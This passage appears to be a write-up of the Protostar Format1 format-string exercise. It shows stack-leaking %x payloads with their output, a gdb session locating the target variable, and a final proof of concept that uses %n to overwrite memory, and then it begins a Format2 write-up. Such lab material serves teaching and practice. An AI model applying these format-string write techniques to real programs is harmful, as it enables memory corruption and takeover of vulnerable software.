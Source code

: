 ```
n      The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument.  No argument is converted.
```
```
$ ./format_1 $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"+"%x|"*181' )
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH2f|804a000|80484e2|2|ffffcf74|ffffced8|804848e|ffffd158|f7ffd000|804849b|f7fbc000|8048490|0|0|f7e2bad3|2|ffffcf74|ffffcf80|f7feae6a|2|ffffcf74|ffffcf14|804a018|804822c|f7fbc000|0|0|0|a1424fd9|9baaabc9|0|0|0|2|8048350|0|f7ff0660|f7e2b9e9|f7ffd000|2|8048350|0|8048371|8048475|2|ffffcf74|8048490|8048500|f7feb300|ffffcf6c|1c|2|ffffd14d|ffffd158|0|ffffd398|ffffd3a3|ffffd3b5|ffffd3cb|ffffd3dc|ffffd409|ffffd426|ffffd435|ffffd46a|ffffd475|ffffd485|ffffd49c|ffffd4ad|ffffd4bf|ffffd503|ffffd537|ffffd566|ffffd56d|ffffda8e|ffffdac8|ffffdafc|ffffdb2c|ffffdb7e|ffffdbb1|ffffdbf5|ffffdc53|ffffdc6a|ffffdc7c|ffffdc9d|ffffdca6|ffffdcc4|ffffdcd8|ffffdcef|ffffdd00|ffffdd0f|ffffdd45|ffffdd57|ffffdd74|ffffdd86|ffffdda0|ffffddaf|ffffddbc|ffffddc4|ffffddd3|ffffddff|ffffde09|ffffde23|ffffde72|ffffde84|ffffdec0|ffffdee0|ffffdeea|ffffdeff|ffffdf1e|ffffdf29|ffffdf43|ffffdf56|ffffdf78|ffffdf99|ffffdfb2|ffffdfd1|ffffdfe0|0|20|f7fdacd0|21|f7fda000|10|1f8bfbff|6|1000|11|64|3|8048034|4|20|5|9|7|f7fdc000|8|0|9|8048350|b|3e8|c|3e8|d|3e8|e|3e8|17|0|19|ffffd12b|1f|ffffdfed|f|ffffd13b|0|0|0|0|0|a000000|c782b05e|f9132f6f|c100e28a|697e9cad|363836|0|0|0|662f2e00|616d726f|315f74|41414141|42424242|43434343|44444444|45454545|46464646|47474747|48484848|

$ ./format_1 $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGG" + "\x28\xa0\x04\x08" + "%x|"*181 + "%n"' )
```

It did not work after severak attempts and analysis then I switched back to ubuntu 20.04 again;

```
$ objdump -t ./format_1 | grep target
0804c024 g     O .bss	00000004              target

gdb-peda$ r $(python -c 'print "A"*8+"\x24\xc0\x04\x08"+"A"*8+"%175$x"')
Starting program: format_1 $(python -c 'print "A"*8+"\x24\xc0\x04\x08"+"A"*8+"%175$x"')
AAAAAAAA$AAAAAAAA804c024[Inferior 1 (process 8049) exited normally]
```

#### 2.3 Final PoC

```
$(python -c 'print "\x24\xc0\x04\x08"+"%166$x"')
$804c024

$(python -c 'print "\x24\xc0\x04\x08"+"%166$n"')
$you have modified the target :)
 ```


## Protostar-Format2 Solution

### 1. Introduction

This is a poc solution for the "Format2" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419023621/https://exploit-exercises.com/protostar/format2/](https://web.archive.org/web/20170419023621/https://exploit-exercises.com/protostar/format2/) 
 